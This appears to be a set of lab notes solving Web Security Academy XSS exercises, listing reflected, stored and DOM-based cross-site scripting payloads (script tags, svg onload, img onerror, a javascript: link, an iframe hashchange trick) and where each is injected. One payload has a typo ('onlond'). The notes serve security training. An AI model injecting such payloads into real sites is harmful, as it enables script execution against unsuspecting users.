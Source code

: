 # Labs
### Reflected XSS into HTML context with nothing encoded
```<script>alert(1)</script>``` in search box.

<br>

### Stored XSS into HTML context with nothing encoded
```<script>alert(1)</script>``` in comment section.

<br>

### DOM XSS in document.write sink using source location.search
<img width="500" src="https://user-images.githubusercontent.com/68285613/146972401-767cfebe-24de-403c-b447-e028a8b35f77.png">

``` "><svg onlond=alert(1)>``` in search box.

<br>

### DOM XSS in document.write sink using source location.search inside a select element

<img width="500" src="https://user-images.githubusercontent.com/68285613/146982039-d5264792-8f54-4e75-bd1e-4d18056a0ad6.png">

Once determined it's able to use url to write into script, 

use ```storeId="></select><img src=1 onerror=alert(1)>```.

<img width="500" src="https://user-images.githubusercontent.com/68285613/146986519-5c632667-cc06-49fb-90ac-ee63a4db6596.png">

<br>

### DOM XSS in innerHTML sink using source location.search
```</div><svg onload=alert(1)>``` in search box.

<br>

### DOM XSS in jQuery anchor href attribute sink using location.search source
Using herf alert.
```returnPath=javascript:alert('1')``` in link.

<br>

### DOM XSS in jQuery selector sink using a hashchange event
Readings:

[```What is "><img src=x onerror=prompt(1);>?```](https://www.quora.com/What-is-img-src-x-onerror-prompt-1)

```<iframe src="https://ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>```

